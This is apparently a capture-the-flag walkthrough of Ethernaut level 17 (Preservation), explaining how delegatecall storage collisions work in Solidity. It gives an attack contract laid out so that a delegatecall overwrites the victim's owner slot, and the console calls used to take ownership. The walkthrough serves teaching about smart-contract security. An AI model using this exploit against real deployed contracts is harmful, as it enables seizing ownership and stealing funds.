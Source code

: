 # Ethernaut Level 17 (Preservation) Walkthrough

The following is a semantic solution walkthrough of the Ethernaut CTF level 17. The aim is to give a readable explanation of the concepts involved, and present a step-by-step walkthrough of the solution. In addition, tangential explanations will also be given where essential.

This was a very interesting one. The lesson here was that when making delegate call changing state variables, make sure the delegatee contract mirrors the delegator contract's variables. This is because the change will be made at the storage slot where the variable being changed is located in the delegatee/ library contract. Further, to always use `library` keyword to describe library contracts so they are not able to use storage.
An interesting insight was that variable names are only identifiers for the storage slot. The compiler resolves the identifiers to storage slot numbers and understands the type of data stored there by the type assigned. In addition, smaller types can be casted to larger types (just pad more zeroes to the left) but larger types cannot be cast to smaller types without losing data.

Given:

```
ContractA {
    uint var1;
    uint var2;
    address var3;
    
    functionA() {
    delegatecall to B, to change var3 to 15
    }
}

ContractB {
    address var3;
    
    functionB(uint newVar3) {
    change var3 to received value
    }
}
```

When we call A.functionA to change var3 value of A using B's functionB, B will make change to the storage slot 0 where var3 is located. Since this is a delegate call, the context will be of contract A. Thus, in Contract A whatever variable has been assigned storage slot 0 will get overwritten with the value.

#### Solution

The solution was to first figure out the storage collision and overwrite between the library contract and the main contract. After this, I first called the time setting function with the address (type casted to uint; 20 bytes can be casted to 32 bytes without losing data) of this contract, which I would use to øverwrite the owner variable.

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.6.0 <0.9.0;

// Simple library contract to set the time
contract AttackContract {

  // stores a timestamp 
  uint var1;  
  uint var2;  
  uint storedTime;  
  // First call setTime with this contract's address
  // Call setTime with address typecasted to uint
  // smaller type (address) can be converted to bigger type (uint), 0s will be padded to the left
// The library changes its variable which is at slot 0. By adding two other variables before it, now lib will change what
// ever is at slot 2. When the delegate call happens, lib makes changes to slot slot 2 of the calling contract.
// And at slot 2 is the owner variable.
  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

Made the call:

`await contract.setFirstTime(uint256(AttackContractAddress))`

With the `timeZone1Library` variable in the main contract now holding the address of this contract, I again called `setFirstTime` with my address. this is because this time, the `setTime` function of the `AttackContract` will be called, which will store the address in its`storedTime` variable, which is located at the 2nd storage slot. Since the main contract's context is preserved with the call being a delegate call, the 3rd variable (owner) in the main contract gets overwritten with this value (my address typecasted to uint)